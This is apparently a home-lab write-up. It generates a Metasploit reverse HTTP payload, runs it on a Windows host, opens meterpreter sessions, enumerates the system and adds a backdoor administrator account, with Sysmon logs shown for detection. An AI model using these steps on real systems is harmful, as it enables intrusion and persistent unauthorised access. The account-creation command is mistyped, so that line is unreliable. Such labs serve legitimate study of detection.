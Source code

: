 ![Pasted image 20250118142629](https://github.com/user-attachments/assets/82340df4-ba7f-4f0f-8927-f6d16b768fb2)

```
generate -f exe -o http_lm3nitro.exe
exploit
```

![Pasted image 20250118143149](https://github.com/user-attachments/assets/89892630-18c3-425f-90f2-0890acc92cc5)

This is the HTTP payload that I created:

![Pasted image 20250118142916](https://github.com/user-attachments/assets/2e6e7870-ed66-477c-a744-42db8b12a58b)

After that payload was created, I then went to the target Windows host and download the HTTP payload:

![Pasted image 20250118143658](https://github.com/user-attachments/assets/de2f695e-dc52-4491-a9df-9779504d227d)

After downloading the HTTP payload, I executed it:

![Pasted image 20250118144048](https://github.com/user-attachments/assets/bd7222ad-422d-4e1c-8088-14c65a8eec99)

Listing the sessions:

```
sessions
```

Selecting a session:

```
sessions -i 1
```

On the left side I can see the active meterpreter reverse HTTP session and the network traffic. On the right side are the sysmon logs related to file creation and network traffic:

![Pasted image 20250118145143](https://github.com/user-attachments/assets/5bbf4863-b543-4726-a1ba-cd5c652d1dfa)

I was then able to perform some enumeration on the target host:

```
whoami
hostname
systeminfo
```
![Pasted image 20250118150337](https://github.com/user-attachments/assets/6ca3138c-65e7-408d-b6ca-d9119b0d3e23)

To maintain persistence, I created a user and assigned the user to the administrator group:

```
net user attacker password /add
net local group Administrator attacker /add
```

![Pasted image 20250118150309](https://github.com/user-attachments/assets/467b6e71-8848-44c3-8003-6d0628a5fcff)

